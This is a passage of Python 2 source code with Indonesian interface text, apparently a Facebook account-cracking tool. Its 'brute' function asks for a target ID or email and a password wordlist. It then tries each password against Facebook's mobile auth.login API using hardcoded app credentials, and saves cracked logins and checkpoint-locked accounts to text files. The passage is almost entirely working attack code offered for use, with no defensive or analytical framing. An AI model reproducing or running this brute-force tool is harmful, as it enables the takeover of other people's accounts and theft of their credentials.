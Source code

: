    p = ThreadPool(30)
    p.map(main, id)
    print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'
    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
    super()


def brute():
    os.system('reset')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('reset')
        print logo
        print 40 * '\x1b[1;97m\xe2\x95\x90'
        try:
            email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail\x1b[1;97m/\x1b[1;92mHp \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')
            passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print 40 * '\x1b[1;97m\xe2\x95\x90'
            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email
            print '\x1b[1;91m[+] \x1b[1;92mJumlah\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mMencoba \x1b[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                        print 40 * '\x1b[1;97m\xe2\x95\x90'
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                            print 40 * '\x1b[1;97m\xe2\x95\x90'
                            print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError: